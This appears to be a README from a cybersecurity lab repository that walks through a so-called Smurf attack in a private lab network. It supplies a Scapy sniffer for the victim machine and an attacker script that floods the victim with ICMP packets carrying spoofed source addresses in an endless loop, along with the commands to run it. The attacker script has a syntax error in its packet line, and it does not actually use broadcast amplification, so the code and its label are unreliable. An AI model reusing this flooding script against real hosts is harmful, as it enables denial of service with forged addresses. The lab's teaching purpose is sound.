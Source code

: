 # Smurf Attack

Lab Environment :

Victim Ip : 10.11.137.43
Attacker Ip: 10.11.130.60

Victim Machine

We have to create a victim.py file in victim Machine 

```
#!/usr/bin/env python3

import signal
import sys

if len(sys.argv) != 2:
  print("sudo {} <pcap file name to save>".format(sys.argv[0]))
  sys.exit(1)

pktfilename = sys.argv[1]

try:
  from scapy.all import *
except ImportError:
  import os
  os.system("pip install scapy==2.5.0 matplotlib==3.8.2 pyx==0.16 vpython==7.6.4 cryptography==42.0.2")
  sys.exit(1)


def abrt_sig_hndler(sig, frame):
  print(sig)
  print(frame)
  print("Pressed Ctrl C")
  pkts = sniffer.stop()
  # pkts.summary()
  wrpcap(pktfilename, pkts, append=True)
  sys.exit(0)

signal.signal(signal.SIGINT, abrt_sig_hndler)

sniffer = AsyncSniffer()
sniffer.start()
sniffer.join()
```

after saving this code. Run this code

`sudo python3 victim.py victim_pcap.pcap`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/eeba9c88-dbaf-4158-b931-111727616abe)

Attacker Machine 

We have to create attack.py file in attacker

```
#!/usr/bin/env python

import sys

from scapy.all import *

def send_packet(srcIP, dstIP, count):
  p = IP(src=srcIP, dst=dstIP) / ICMP() "This is Attacker"
  return send(p, count=count)

if __name__ == "__main__":
  if len(sys.argv) < 3:
    print(f"sudo {sys.argv[0]} <victim IP> <random IPs for source seperated by SPACE>")
    sys.exit(1)
  dstIP = sys.argv[1]
  srcIPs = sys.argv[2:]
  while True:
    for srcIP in srcIPs:
      send_packet(srcIP, dstIP, 100)

```

after saving this code in attacker machine 
Run this code.

`sudo python3 attack.py "10.11.137.43" "10.11.137.48" "10.11.137.49" "10.11.137.42" "10.11.137.5"`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/94022886-536e-4246-8277-4216427bd255)

We can view in Wireshark that pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/da932e86-fc54-4af2-995e-2d576d5e72bc)

![Uploading image.png…]()



